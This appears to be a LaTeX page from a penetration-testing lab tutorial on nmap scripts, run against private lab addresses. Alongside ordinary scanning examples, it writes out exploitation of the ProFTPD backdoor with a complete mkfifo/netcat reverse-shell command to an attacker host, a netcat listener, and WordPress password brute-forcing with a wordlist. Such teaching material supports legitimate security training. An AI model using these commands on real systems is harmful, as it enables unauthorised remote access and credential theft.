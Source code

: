 \documentclass[twocolumn]{article}
\begin{document}
The \texttt{-C} option runs a set of scripts categorized as default. Some of these scripts are considered intrusive.

To run a script we use:

\texttt{\# nmap --script=<script> [--script-args=<script arguments>] \{target\}}

\subsection{Examples}

\texttt{\# nmap --script=vuln 192.168.56.16}

This will run all the scripts in the category vulnerability against the target. \\

\texttt{\# nmap --script="http-robots*" 192.168.56.16}

This will show the content of the robots.txt file.\\

\texttt{\# nmap -sV --script="ftp-proftpd-backd*" 192.168.56.19}

This will verify if the target is vulnerable to a specific vulnerability.\\

\texttt{\# nmap -sV --script="ftp-proftpd-back*" --script-args="cmd=ls" 192.168.56.19}

This will list the content of a directory. We do this by modifying the arguments of the script.\\

\texttt{\# nmap -sV --script="ftp-proftpd-back*" --script-args="cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>\&1|nc 192.168.56.1 4444 >/tmp/f" 192.168.56.19}

This will generate a remote connection back to the attacker machine. You will need to have a netcat listener at port 4444 in your host machine. In Kali linux, you can use \texttt{nc -lvnp 4444} in a different terminal.\\

\texttt{\# nmap -sV --script="http-wordpress-brute*" --script-args="passdb=./dict.txt"}

This will bruteforce a wordpres login and show matching passwords. You will need to have a dictionary \texttt{dic.txt} with the password you want nmap to try. Kali Linux has plenty of dictionaries in \texttt{/usr/share/seclists/Passwords}

\section{Challenge}
\end{document}
